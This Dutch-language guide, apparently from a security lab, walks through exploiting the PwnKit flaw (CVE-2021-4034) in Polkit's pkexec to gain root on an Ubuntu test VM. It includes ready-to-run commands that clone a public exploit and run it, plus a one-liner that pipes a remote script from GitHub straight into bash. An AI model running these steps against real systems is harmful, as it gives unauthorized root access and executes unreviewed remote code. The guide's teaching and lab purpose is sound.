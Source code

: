 # CVE-2021-4034 (PwnKit) Exploitatie Gids

## 🎯 Overzicht

Deze gids demonstreert hoe je CVE-2021-4034 kunt exploiteren, een lokale privilege-escalatie kwetsbaarheid in de pkexec-component van Polkit. De exploit stelt een lokale gebruiker in staat om root-rechten te verkrijgen op kwetsbare systemen.

## 📋 Vereisten

- SSH-toegang tot de kwetsbare (Ubuntu) VM als gebruiker `tester`
- Internetverbinding om GitHub te bereiken
- Basiskennis van Linux command line
- Kali Linux VM voor exploitatie

## 🔍 Kwetsbaarheidsanalyse

### Technische Details
- **Component**: pkexec (Polkit)
- **Type Kwetsbaarheid**: Lokale Privilege Escalatie (LPE)
- **CVSS Score**: 7.8 (Hoog)
- **Oorzaak**: Out-of-bounds schrijven in argumentafhandeling

### Getroffen Systemen
- Ubuntu 18.04 (en andere Linux distributies)
- Systemen met Polkit versies voor de fix

## 🚀 Exploitatiestappen

### 1. Initiële Toegang

1. SSH naar de kwetsbare (Ubuntu) VM (vanaf de Kali Linux VM):
   ```bash
   ssh tester@<ubuntu_ip>
   ```

2. Controleer huidige rechten:
   ```bash
   id
   # Verwacht resultaat: uid=1000(tester) gid=1000(tester) groups=1000(tester)
   ```

### 2. Exploit Setup

#### Methode 1: Handmatige Setup

1. Clone de exploit repository:
   ```bash
   git clone https://github.com/cd80-ctf/CVE-2021-4034.git
   cd CVE-2021-4034
   ```

2. Maak de exploit uitvoerbaar:
   ```bash
   chmod +x run.sh
   ```

3. Voer de exploit uit:
   ```bash
   ./run.sh
   ```

#### Methode 2: One-liner (Git)

```bash
ssh tester@<ubuntu_ip> \
  'git clone --depth 1 https://github.com/cd80-ctf/CVE-2021-4034.git \
   && cd CVE-2021-4034 \
   && chmod +x run.sh \
   && ./run.sh'
```

#### Methode 3: One-liner (Curl)

```bash
ssh tester@<ubuntu_ip> 'curl -sL https://raw.githubusercontent.com/cd80-ctf/CVE-2021-4034/main/run.sh | bash'
```

### 3. Verificatie

1. Na succesvolle exploitatie, controleer root-toegang:
   ```bash
   id
   # Verwacht resultaat: uid=0(root) gid=0(root) groups=0(root)
   ```

2. Test root-rechten:
   ```bash
   whoami
   # Verwacht resultaat: root
   ```

## 📚 Begrip van de Exploit

### Hoe het Werkt

1. De exploit maakt gebruik van een geheugencorruptie kwetsbaarheid in pkexec
2. Het manipuleert omgevingsvariabelen om de kwetsbaarheid te triggeren
3. De exploit creëert een kwaadaardige omgeving die leidt tot root-toegang

### Technische Details

De kwetsbaarheid bestaat omdat pkexec command-line argumenten niet correct verwerkt, wat leidt tot een out-of-bounds schrijven. Dit stelt een aanvaller in staat om geheugen te manipuleren en verhoogde rechten te verkrijgen.

## 🔒 Veiligheidsimplicaties

- Elke lokale gebruiker kan root-toegang krijgen
- Geen speciale rechten vereist
- Kan worden gebruikt als onderdeel van een grotere aanvalsketen

## 📝 Best Practices

1. **Voor Systeembeheerders**
   - Houd systemen up-to-date
   - Pas beveiligingspatches direct toe
   - Monitor voor verdachte activiteiten

2. **Voor Beveiligingsonderzoekers**
   - Gebruik alleen in gecontroleerde omgevingen
   - Documenteer alle testactiviteiten
   - Volg verantwoorde openbaarmaking

## 🙏 Credits

- Originele kwetsbaarheidsontdekking: **Qualys Security**
- Exploit code: [cd80-ctf](https://github.com/cd80-ctf/CVE-2021-4034)

## ⚠️ Disclaimer

Deze gids is alleen bedoeld voor educatieve doeleinden. De exploit mag alleen worden gebruikt in gecontroleerde omgevingen met de juiste autorisatie.